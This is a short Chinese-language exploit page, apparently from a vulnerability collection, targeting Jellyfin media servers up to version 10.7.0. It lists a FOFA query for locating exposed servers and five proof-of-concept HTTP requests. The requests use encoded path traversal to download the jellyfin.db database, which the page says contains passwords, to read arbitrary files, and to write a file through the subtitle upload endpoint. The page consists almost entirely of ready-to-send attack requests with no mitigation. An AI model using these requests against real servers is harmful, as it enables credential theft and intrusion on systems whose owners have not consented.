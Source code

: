 <languages  />

影響版本
--------

    jellyfin<=10.7.0

FOFA
----

    title="Jellyfin"

POC1
----

從伺服器器下載帶有密碼的`jellyfin.db`

    GET /Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/ HTTP/1.1
    Host: x.x.x.x
    accept: application/json
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
    Referer: http://x.x.x.x/web/index.html
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

POC2
----

    GET /Videos/anything/hls/m/..%5Cdata%5Cjellyfin.db HTTP/1.1

POC3
----

    GET /Videos/anything/hls/..%5Cdata%5Cjellyfin.db/stream.m3u8/?api_key=4c5750626da14b0a804977b09bf3d8f7 HTTP/1.1

POC4
----

要下載的POC `c:tempfilename.jpg`

    GET /Images/Ratings/c:%5ctemp/filename HTTP/1.1
    GET /Images/Ratings/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5ctemp/filename HTTP/1.1

POC5
----

    POST /Videos/d7634eb0064cce760f3f0bf8282c16cd/Subtitles HTTP/1.1
    ...
    X-Emby-Authorization: MediaBrowser DeviceId="...", Version="10.7.0", Token="..."
    ...

    {"language":".\..\","format":".\..\test.bin","isForced":false,"data":"base64 encoded data"}